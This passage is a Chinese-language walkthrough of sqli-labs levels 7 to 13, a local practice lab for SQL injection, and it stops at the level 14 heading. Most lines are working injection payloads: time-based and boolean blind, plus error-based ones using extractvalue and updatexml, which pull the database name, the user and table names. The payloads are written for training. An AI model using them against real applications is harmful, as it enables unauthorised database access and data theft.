 双括号单引号盲注，写shell，前提是当前账号有写入权限且知道路径 

http://127.0.0.1/sqli-labs/Less-7?id=1')) and sleeP(5) -- - 

http://127.0.0.1/sqli-labs/Less-7?id=1')) and if(length(database())=8,sleeP(5),1)-- - 





##第8关 

布尔型单引号GET盲注 

http://127.0.0.1/sqli-labs/Less-8?id=1' and left(database(),8)='security'-- - 



##第9关 

单引号基于时间盲注 

http://127.0.0.1/sqli-labs/Less-9?id=1' and if(length(database())=8,sleeP(5),1)-- - 



##第10关 

双引号基于时间盲注 

http://127.0.0.1/sqli-labs/Less-10?id=1" and if(left(database(),8)='security',sleep(5),1)-- - 



##第11关 

POST型，基于报错单引号 报错注入 

uname=admin' or ''='&passwd=admin&submit=Submit 

uname=admin' and extractvalue(1,concat(0x7e,(select user()))) -- -&passwd=admin&submit=Submit 

*uname=admin' and length(user())=14 -- -&passwd=admin&submit=Submit*



##第12关 

POST型，双引号+括号 报错注入 

uname=admin") and length(database())=8 -- -&passwd=admin&submit=Submit 

uname=admin") and extractvalue(1,concat(0x7e,(select database()))) -- -&passwd=admin&submit=Submit 

*uname=admin") and if((select table_name from information_schema.tables where table_schema = 'security' limit 3,1)='users',(select 1 union select 2),1) -- -&passwd=admin&submit=Submit*



##第13关 

POST 单引号+括号，报错注入 

uname=admin') and extractvalue(1,concat(0x7e,(select user()))) -- -&passwd=admin&submit=Submit 

uname=admin') and updatexml(1, concat(0x7e, version()), 1) -- -&passwd=admin&submit=Submit 



##第14关 
